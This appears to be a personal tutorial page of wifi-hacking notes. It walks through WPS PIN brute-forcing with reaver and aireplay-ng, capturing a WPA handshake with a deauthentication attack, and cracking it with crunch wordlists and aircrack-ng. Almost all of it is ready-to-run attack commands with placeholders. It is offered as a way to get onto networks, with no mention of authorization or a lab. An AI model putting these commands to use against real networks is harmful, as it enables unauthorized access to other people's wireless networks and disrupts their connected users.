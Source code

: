 [Back](..)

WPS ENABLED AND PBC DISABLED\
wpa and wpa2 have a wps feature which makes it easier to connect to it\
if wps is enabled and there is no PBC(push button authentication) enabled, we can easily connect to the network\
a wps enabled network doesnt need the passwd for connecting to it, but a 8 digit pin

wash --interface <mon interface> finds all networks with their wps on\
aireplay-ng --fakeauth <time btw each attack> -a <target bssid> -h <my bssid> <mon interface> but don't start it yet, go to another terminal now\
you can see your bssid as first 12 digits seperated by - beside unspec, using ifconfig

reaver --bssid <target> --channel <ch> --interface <mon interface> -vvv --no-associate and enter to start bruteforce\
go to above terminal and start aireplay fake authentication attack

latest version of reaver may be buggy, send_packet called from resend_last_packet() send.c:161 is repeating itself very fast\
then we have to use older version of reaver 1.6.1\
open the folder where it is downloaded to \
cd Downloads/\
chmod +x reaver to make it as a executable in permissions\
./reaver --bssid <target> --channel <ch> --interface <mon interface> -vvv --no-associate\
-vvv gives information about the process and no-associate will stop reaver from doing association automatically which is buggy\
if cracked, we will get it at wps psk

HANDSHAKE CAPTURE\
airodump-ng --band abg <mon interface> to find all 5hz and 2.4hz networks\
airodump-ng --bssid <target> --channel <ch> --write <storing file for captured date> <mon interface> to store captured data\
wait till a client connects to the network\
do deauth attack to the client to speed the process

aireplay-ng --deauth 5 -a <target> -c <client> <mon interface>\
this time no.of attacks should be small\
stop attack when wpa handshake is captured

CRACKING CAPTURED HANDSHAKE\
we can do this using wordlists or bruteforce(for number password)\
we use crunch to create a own wordlist

crunch <min characters> <max> <characters like abc123!@#> -t <combination like a@@@b> -o<file to save>\
for example, use\
crunch 6 8 abc12 -o test.txt\
use cat test.txt to view the file

aircrack-ng <handshake.cap cap file> -w <worldlist.txt wordlist file>\
if the key is in the wordlist, only then will the password be found\
you can use free websites like onlinehashcrack to do dictionary attacks

[Back](..)